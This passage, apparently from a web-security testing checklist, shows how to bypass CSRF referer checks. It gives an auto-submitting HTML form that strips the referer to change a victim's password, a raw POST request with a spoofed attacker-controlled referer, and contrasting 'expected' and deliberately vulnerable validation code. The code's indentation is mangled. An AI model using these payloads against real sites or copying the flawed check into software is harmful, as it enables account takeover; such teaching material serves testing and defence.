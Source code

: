     new_password=abc123&csrf_token=not_a_real_token
    ```
*   [ ] **Bypass CSRF Referer Header Check**

    ```python
    # Just Remove The referrer
    <html>
     <meta name="referrer" content="no-referrer">
     <form method="POST" action="<https://email.example.com/password_change>" id="csrf-form">
     <input type="text" name="new_password" value="abc123">
     <input type='submit' value="Submit">
     </form>
     <script>document.getElementById("csrf-form").submit();</script>
    </html>
    --------------------
    # Expected Code
    def validate_referer():
     if (request.referer in allowlisted_domains):
    pass
     else:
     throw_error("Referer incorrect. Request rejected.")
    [...]
    def process_state_changing_action():
     if request.referer:
     validate_referer()
     execute_action()
    ---------------------------
    # another way
    POST /password_change
    Host: email.example.com
    Cookie: session_cookie=YOUR_SESSION_COOKIE;
    Referer: example.com.attacker.com
    (POST request body)
    new_password=abc123
    ------------------
    # Vulnerable code
    def validate_referer():
     if request.referer:
     if ("example.com" in request.referer):
     pass
     else:
     throw_error("Referer incorrect. Request rejected.")
    [...]
    def process_state_changing_action():
     validate_referer()
     execute_action()
    ```
